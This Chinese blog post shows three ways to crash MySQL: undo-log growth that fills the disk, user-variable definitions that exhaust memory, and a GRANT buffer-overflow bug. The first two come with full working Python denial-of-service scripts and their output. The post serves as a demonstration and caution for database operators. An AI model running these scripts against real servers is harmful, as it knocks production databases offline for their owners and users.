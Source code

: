 ```yaml
---
layout: post
title: "如何搞挂MySQL"
description: ""
category: 数据库
tags: [MySQL]
---
```


# 如何搞挂MySQL


本文将介绍三种搞挂MySQL的方式，逗大家一乐，感兴趣的同学可以找一个MySQL实例进行测试。三种方式分别是：1）产生大量undo日志撑满磁盘空间导致MySQL不可用；2）定义大量用户变量耗尽MySQL的内存；3）触发MySQL的bug。

**声明：**  这里介绍的三种方式可以搞挂目前大多数的线上MySQL实例，所以，测试请谨慎，如果不是自己的示例，请在测试环境进行实验。


# 1. 产生大量的undo日志

众所周知，InnoDB是一个支持MVCC的存储引擎，为了支持MVCC，InnoDB需要保存undo日志，以便对用户提供记录的历史版本。

那么，如果我们反复地更新一条记录而不提交，将会产生大量的undo日志，使得磁盘空间爆满，导致MySQL不可用。

在innodb现有的实现中，并没有对单个用户或单个连接使用的undo空间进行限制。也就是说，我们只需要反复更新一条记录，而不提交，就会产生大量undo日志，由于我们的事务没有提交，undo日志不能被回收，从而使得磁盘空间被耗尽，最终导致MySQL挂掉。

Jeremy Cole老早就提到过这个[问题][1]，不过该问题至今还存在。要进行该项测试，只需要有更新记录的权限即可。测试脚本如下：

    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    import pymysql
    import random
    import string
    
    def get_conn():
        return pymysql.connect(user='lmx', password='123456', port=3306, host='127.0.0.1', db='test')
    
    def update_data(n):
        with get_conn() as cursor:
            for i in xrange(n):
                data =  "".join(random.sample(list(string.letters + string.digits), 60)) * 5
                cursor.execute( "update test set val = '{0}'".format(data))
    
    def main():
        print update_data(9900000000)
    
    if __name__ == '__main__':
        main()

测试过程中，可以观察磁盘空间的使用率，一直在上升：

    /dev/vdb         30G  7.7G   23G  26% /ebs
    /dev/vdb         30G   25G  5.4G  83% /ebs
    /dev/vdb         30G   30G   28K 100% /ebs

磁盘空间满以后，再执行SQL语句就报错了，错误信息如下：

    mysql> create table t2(id int);
    ERROR 3 (HY000): Error writing file './test/t2.frm' (Errcode: 28 - No space left on device)

错误日志如下：

    2016-03-31 12:03:07 7f9298f97700 InnoDB: Error: Write to file ./ibdata1 failed at offset 10415505408.
    InnoDB: 1048576 bytes should have been written, only -1 were written.
    InnoDB: Operating system error number 28.
    InnoDB: Check that your OS and file system support files of this size.
    InnoDB: Check also that the disk is not full or a disk quota exceeded.
    InnoDB: Error number 28 means 'No space left on device'.
    InnoDB: Some operating system error numbers are described at
    InnoDB: http://dev.mysql.com/doc/refman/5.6/en/operating-system-error-codes.html

可以看到，虽然MySQL进程还存在，其实服务已经不可用了。事务在执行过程中，会产生undo日志以及binlog日志，占用磁盘空间，如果我们在线上执行一个大事务，就需要留意是否有可能因为undo和binlog导致磁盘空间爆满的情况，为了规避风险，我们还是应该尽可能的避免特别大的事务。

# 2. 定义大量的变量

上面的例子并没有真的让MySQL进程挂掉，而且需要对数据库具有写的权限。你可能不服，那么，我们再来看一个情况————定义大量的变量。

这种方式将会导致MySQL占用的内存急剧上涨，最后被操作系统kill掉。而且，只需要有登录数据库的权限即可。

想想之前[姜老师][4]搞了一个线上写SQL的比赛，这种方式就可以轻易地将姜老师的数据库搞垮了。

测试脚本如下：


    #!/usr/bin/python
    #-*- coding: UTF-8 -*-
    import pymysql
    import random
    import string
    
    def get_conn():
        return pymysql.connect(user='lmx', password='123456', port=3306, host='127.0.0.1')
    
    def set_variables(n):
        with get_conn() as cursor:
            for i in xrange(n):
                data =  "".join(random.sample(list(string.letters + string.digits), 60)) * 50
                cursor.execute( "set @var{0} = '{1}'".format(i, data))
    
    def main():
        print set_variables(9900000000)
    
    if __name__ == '__main__':
        main()

我们不断的定义用户变量，可以通过pidstat观察MySQL占用的内存：

        pidstat 2 -r -p 6879
 
        10:50:48 AM      6879   3683.08      0.00 2450176 1089808  52.87  mysqld
        10:50:50 AM      6879   3822.00      0.00 2480768 1120168  54.34  mysqld
        10:50:52 AM      6879   3252.24      0.00 2506904 1146304  55.61  mysqld
        10:50:54 AM      6879   4065.83      0.00 2539276 1178776  57.19  mysqld
        10:50:56 AM      6879   3436.32      0.00 2566900 1206496  58.53  mysqld
        10:50:58 AM      6879   3570.85      0.00 2595312 1234744  59.90  mysqld
        10:51:00 AM      6879   4379.00      0.00 2630356 1269856  61.60  mysqld
        10:51:02 AM      6879   2982.09      0.00 2654316 1293880  62.77  mysqld
        10:51:04 AM      6879   3836.00      0.00 2685004 1324504  64.26  mysqld
        10:51:06 AM      6879   3147.00      0.00 2710152 1349584  65.47  mysqld
        10:51:08 AM      6879   3997.50      0.00 2742132 1381528  67.02  mysqld
        10:51:10 AM      6879   4127.14      0.00 2775000 1414720  68.63  mysqld
        10:51:12 AM      6879   3382.00      0.00 2802024 1441644  69.94  mysqld
        10:51:14 AM      6879   4285.57      0.00 2836480 1476288  71.62  mysqld
        10:51:16 AM      6879   3529.50      0.00 2864692 1504544  72.99  mysqld
        10:51:18 AM      6879   3573.13      0.00 2893400 1533260  74.38  mysqld
        10:51:20 AM      6879   3694.97      0.00 2922804 1562828  75.82  mysqld
        10:51:22 AM      6879   3738.50      0.00 2952704 1592860  77.27  mysqld
        10:51:24 AM      6879   3825.00      0.00 2983296 1623484  78.76  mysqld
        10:51:26 AM      6879   3082.00      0.00 3006660 1646792  79.89  mysqld
        10:51:28 AM      6879   3961.00      0.00 3038340 1678464  81.43  mysqld

可以看到，MySQL占用的内存越来越大，最后，MySQL进程不在了。通过dmesg可以看到，是由于MySQL占用内存太多，被操作系统kill掉:

    dmesg
    [ 2859.949210] Out of memory: Kill process 6879 (mysqld) score 927 or sacrifice child
    [ 2859.950665] Killed process 6879 (mysqld) total-vm:4125200kB, anon-rss:1905488kB, file-rss:0kB

# 3. 触发MySQL的bug

可以说，写MySQL的都是一群科学家，而且，由于MySQL使用如此广泛，遇到MySQL的bug的情况应该不容易，不过，也不是没有的。如果看MySQL的release note，每次的新版本都会修复无数的bug。

这里，我们来测试一下MySQL的bug。之所以选择这个bug，是因为该bug复现起来太容易了，只需要执行一条SQL语句即可。

在使用grant授权时，如果使用了一个很长的数据库名，将导致MySQL挂掉。如下所示：
![mysql_bug.png-9kB][2]

很明显，该问题是由于缓冲区溢出导致，这也是我们编程中容易犯的一个错误。这个bug在MySQL 5.7中已经修复，我在我们的线上环境（5.6.19）中进行测试，MySQL立马挂掉，简直是搞挂MySQL的最快方式。

[1]:http://blog.jcole.us/2014/04/16/a-little-fun-with-innodb-multi-versioning/
[2]: http://static.zybuluo.com/lmx07/kdo79hs5tuo8darmczujxmiv/mysql_bug.png
[4]: http://www.innomysql.net
